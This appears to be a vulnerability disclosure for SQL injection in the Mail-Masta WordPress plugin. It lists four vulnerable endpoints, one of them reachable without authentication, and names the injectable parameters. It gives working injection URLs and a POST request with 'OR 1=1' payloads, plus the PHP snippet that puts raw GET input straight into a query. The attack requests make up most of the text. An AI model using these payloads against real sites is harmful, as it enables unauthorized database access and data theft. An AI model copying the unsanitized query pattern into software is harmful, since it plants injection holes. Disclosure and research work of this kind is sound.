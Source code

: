 Mail-Masta SQL Injection
=========================================
Page: ../wp-content/plugins/mail-masta/inc/lists/csvexport.php (Unauthenticated)

GET Parameter: list_id

http://my_wp_app/wp-content/plugins/mail-masta/inc/lists/csvexport.php?list_id=0+OR+1%3D1&pl=/var/www/html/wordpress/wp-load.php


csvexport.php:
  
    $list_id=$_GET['list_id'];
    global $wpdb;
    ..
    $masta_list = $wpdb->prefix . "masta_list";
    ..
    $check_list="SELECT * FROM $masta_list WHERE list_id= $list_id";


=========================================

Page: ../wp-content/plugins/mail-masta/inc/lists/view-list.php (Requires Wordpress admin)

GET Parameter: filter_list

http://my_wp_app/wp-admin/admin.php?page=masta-lists&action=view_list&filter_list=0+OR+1%3D1


=========================================

Page: ../wp-content/plugins/mail-masta/inc/campaign/count_of_send.php (Requires Wordpress admin)

POST Parameter: camp_id

http://my_wp_app/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php/?pl=/var/www/html/wordpress/wp-load.php

=========================================


Page: ../wp-content/plugins/mail-masta/inc/campaign_save.php (Requires Wordpress admin)

POST Parameter: list_id

POST /wp-admin/admin-ajax.php?id= HTTP/1.1

...snip...

action=my_action&url=%2Fvar%2Fwww%2Fhtml%2Fwp-content%2Fplugins%2Fmail-masta%2Finc%2Fcampaign_save.php&sender_selected_list_check=check&list_id=1+OR+1%3D1

=========================================
